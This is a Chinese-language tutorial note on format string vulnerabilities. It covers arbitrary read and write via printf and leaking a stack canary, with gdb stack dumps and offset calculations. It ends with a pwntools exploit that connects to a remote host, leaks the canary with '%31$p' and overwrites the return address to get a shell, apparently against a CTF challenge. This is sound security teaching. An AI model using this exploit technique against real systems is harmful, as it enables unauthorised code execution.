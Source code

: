 ```yaml
---
title: 格式化字符串漏洞
layout: doc
---
```

# {{$frontmatter.title}}
[[toc]]

## 作用
- 使程序崩溃
- 查看栈内容 （绕过栈保护）
- **任意地址读写**

任意读
printf("%3$d", 1,2,3);
printf("%s %s %s")
当不给参数时，会尝试读取栈上的数据

任意写
int count = 0;
printf("%n", &count);
%n      一次性写入4个字节
%hn     2个字节
%hhn    一个字节


## 绕过Canary保护
> 原理使用print读取canary的值，并重新放回去
> 或者爆破

确定canary位置的偏移，以及canary到返回地址的偏移
在ida反编译后 xor jz call 的位置就是比较canary的值

![alt text](/images/image-20.png)

这是栈空间布局


> gdb 反编译确定 canary偏移
```zsh{2,4,17}
gdb-peda$ x $rbp-0x8
0x7fffffffe118: 0x589dbe7c0a8cea00
gdb-peda$ x/50xg $rsp
0x7fffffffe048: 0x00000000004007c2      0x0000000061616161
0x7fffffffe058: 0x0000000000000000      0x0000000000000000
0x7fffffffe068: 0x0000000000000000      0x0000000000000000
0x7fffffffe078: 0x0000000000000000      0x000000000000000c
0x7fffffffe088: 0x0000000000000040      0x0000000000140000
0x7fffffffe098: 0x000000000000000a      0x0000000000000040
0x7fffffffe0a8: 0x000000000000000c      0x0000000001800000
0x7fffffffe0b8: 0x0000000000000040      0x0000000000000002
0x7fffffffe0c8: 0x8000000000000006      0x0000000000000000
0x7fffffffe0d8: 0x0000000000000000      0x0000000000000000
0x7fffffffe0e8: 0x0000000000000000      0x0000000000000000
0x7fffffffe0f8: 0x0000000000000000      0x0000000000000000
0x7fffffffe108: 0x00007ffff7fe6900      0x0000000000000000
0x7fffffffe118: 0x589dbe7c0a8cea00      0x0000000000000001
0x7fffffffe128: 0x00007ffff7df06ca      0x00007fffffffe220
```
%p 按16进制输出数据 **8位**读取

偏移是26，为什么是26？ 因为要用%p打印 %p要打印的是一个地址，也就是相差26个地址的长度 一个长度为8字节

0x7fffffffe118 - 0x7fffffffe048 / 8 = 26

0x0000000061616161 前面一个 0x589dbe7c0a8cea00 后面一个

26 + 6 - 1

因为距离 26 且 前六个参数是入 寄存器，所以+6 , -1 是第31位是我们要打印的内容

而 到返回地址的距离是

0x7fffffffe128 - 0x7fffffffe118 - 1

-1 不算返回地址

## exp
```py
from pwn import *
# io = process("./format_canary2")
io = remote("120.46.59.242", 2058)
context(arch="amd64", os="linux")

leak = b"%31$p"
io.sendline(leak)
# 0x6bb33d2e7d015c00 == 18
canary = int(io.recv(18)[2:],16)
print(canary)

getshell_addr = 0x0000000000400805


padding = 0xD0 - 8
delim = 8
# 为什么 -8 根据 ida 你会发现 字符数组才200 为什么0xD0是208 因为 要错出 8个字节为 canary 留位置

payload = b'a'*padding + p64(canary) + b'a'*delim + p64(getshell_addr)

io.sendline(payload)
io.interactive()
```

## 26 , 31 这些都是什么？

栈上不仅有**函数参数**，还有数组的位置

26 是 栈上数组 到 canary的位置

而 31 是为了读取 栈上 canary的值

31 是怎么来的呢？

printf("%31$p")

前 6 个 %p 会去读 寄存器

后 25 个 读的就是 栈上数组的里的了，第26个是 cannary